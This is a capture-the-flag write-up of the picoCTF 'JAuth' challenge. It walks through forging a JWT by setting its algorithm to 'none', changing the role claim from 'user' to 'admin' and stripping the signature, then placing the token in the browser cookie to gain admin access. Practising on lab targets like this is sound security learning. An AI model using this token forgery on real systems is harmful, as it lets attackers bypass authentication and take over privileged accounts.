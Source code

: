 

---

## JAuth – PicoCTF Challenge Writeup

**Author:** Geoffrey Njogu

---

### Challenge Description

Most web application developers use third-party components without testing their security. Some well-known breaches that resulted from this include:

* **Equifax** – due to an unpatched Apache Struts vulnerability (CVE-2017-5638)
* **Mossack Fonseca (Panama Papers)** – breached via an unpatched Drupal CMS
* **VerticalScope** – used an outdated version of vBulletin

The challenge was hosted [here](http://saturn.picoctf.net:55824) and asked:

> Can you identify the components and exploit the vulnerable one? Can you become an admin?

We were given test credentials:
**Username:** `test`
**Password:** `Test123!`

---

### My Approach

This challenge hinted heavily at insecure use of web components. On logging in with the test credentials, I immediately checked for any client-side tokens or session identifiers. Using **Firefox's Developer Tools**, I found a cookie named `token`, which appeared to be a **JWT (JSON Web Token)**—structured as three base64-encoded strings separated by dots.

The hint in the problem also mentioned the JWT having exactly two periods, reinforcing that the token was likely important.

---

### Inspecting the JWT

Using [token.dev](https://token.dev), I decoded the JWT:

**Header**

```json
{
  "typ": "JWT",
  "alg": "HS256"
}
```

**Payload**

```json
{
  "auth": 1688308967209,
  "agent": "Mozilla/5.0 (...Firefox...)",
  "role": "user",
  "iat": 1688308967
}
```

The key detail here was that the `role` was set to `"user"`. That made me suspect the backend logic was checking this field for access control. The `alg` (algorithm) field was set to `HS256`, meaning the signature should be verified with a secret key—unless the backend implementation was flawed.

---

### Exploiting Algorithm Confusion

There's a known vulnerability called **JWT algorithm confusion**, where if the server doesn't strictly enforce signature verification, we can switch the algorithm to `"none"` and strip the signature.

I modified the token using token.dev:

**Header**

```json
{
  "typ": "JWT",
  "alg": "none"
}
```

**Payload**

```json
{
  "auth": 1688308967209,
  "agent": "Mozilla/5.0 (...Firefox...)",
  "role": "admin",
  "iat": 1688308967
}
```

I then re-encoded the header and payload using base64 and constructed a JWT with no signature, just a trailing dot:

```
<base64_header>.<base64_payload>.
```

---

### Gaining Admin Access

Back in Firefox, I manually edited the `token` cookie and replaced its value with the modified JWT. On refreshing the page, I was now logged in as an **admin**—and the **flag was displayed**.

---

![image](https://github.com/user-attachments/assets/d541c498-42dc-4da1-8c6a-bd1f70f7b281)
![image](https://github.com/user-attachments/assets/ac1ce59a-d3fe-4cfc-8847-33dd8816af7d)

